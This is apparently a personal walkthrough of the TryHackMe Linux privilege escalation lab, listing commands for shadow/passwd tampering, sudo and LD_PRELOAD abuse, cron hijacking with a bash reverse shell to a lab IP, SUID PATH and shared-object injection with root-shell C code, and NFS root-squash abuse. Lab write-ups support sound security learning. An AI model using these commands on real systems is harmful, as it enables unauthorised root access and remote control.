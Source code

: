 # PrivEsc

link to the room: [`https://tryhackme.com/room/linuxprivesc`]

`export IP=10.10.112.251`

## TASK

### Service exploit

- show services running as root 
command: `ps aux | grep root`

### Readable /etc/shadow
- crack the password of root user sha512

### Writable /etc/shadow
command: `mkpasswd -m sha-512 goodluck`

### Writable /etc/passwd
- replace the x for the passwoed by the traditional crpyt (des) generated by openssl
command: `openssl passwd goodluck`

### Sudo shell escape sequece

command: `sudo -l` allowed commands for root.

visit : `https://gtfobins.github.io` to show the instructions

### Sudo envs
- see if there any ENVs in env_keep: LD_PRELOAD and LD_LIBRARY_PATH
command: `sudo -l`

### CronJobs file permissions
command: `cat /etc/crontab`

- reverse shell on overwrite.sh
```
#!/bin/bash
bash -i >& /dev/tcp/10.9.2.177/4444 0>&1
```

### CronJobs PATH ENV

- check if PATH is in crontab
command: `cat /etc/crontab`

### Cronjobs Wildcards

- if tar used a wildcard for controlled directory we can used checkpoint feature look at `https://gtfobins.github.io/tar` it will expand files as tar options.

### SUID/SGID executable known exploits

- find all executable files with SUID/SGID and search for exploit in exploit-db

command: `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

### SUID/SGID shared object injection
- SUID file: /usr/local/bin/suid-so
command: `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

### SUID/SGID ENVs

- search a relative path for a programs with strings or strace:

output: 
`service apache2 start`

- spawn a shell using a local tampered service file

service content:

```
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```
command: `gcc -o service service.c`

exploit command: `PATH=.:$PATH /usr/local/bin/suid-env`

### SUID/SGID abuse shell feature

- see the bash version `/bin/bash --version` < 4.2-048
- create a function with a full path
```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
---

### password & keys config files

- show the content of `.bash_history`

- check if you can access ssh private key `/.ssh/root_key`

command: `ssh -i root_key root@$IP`


### NFS(Network file system) root squash

- login as root in attacker machine and mount shared nfs 
```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```
- create the rootbash.c
```
int main() {
	system("/bin/bash -p");
}
```
```
# target machine
gcc rootbash.c -o rootbash

# attacker machine
chmod +xs rootbash
```


### Kernel exploits

- tool: `Linux Exploit Suggester 2`





